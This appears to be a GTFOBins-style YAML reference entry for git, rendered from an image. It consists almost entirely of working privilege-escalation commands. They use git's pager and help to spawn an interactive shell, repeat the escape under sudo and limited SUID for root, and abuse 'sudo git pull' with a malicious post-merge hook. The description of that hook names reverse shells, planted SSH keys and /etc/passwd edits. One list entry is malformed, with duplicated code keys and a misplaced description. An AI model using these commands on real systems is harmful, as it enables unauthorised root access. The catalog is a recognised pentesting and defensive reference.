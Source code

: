 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
      code: |
        git remote add <name> <repo with malicious post-merge hook>
        sudo git pull <name>
    - description: This can be useful when only git pull is allowed sudo access. Any commands in the post-merge git hook of the repository which is pulled will be executed as root. This enables several ways to pop a root shell, including but not limited to: Adding an SSH key, starting a reverse shell and modifying /etc/passwd to create a new account with root access.
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```


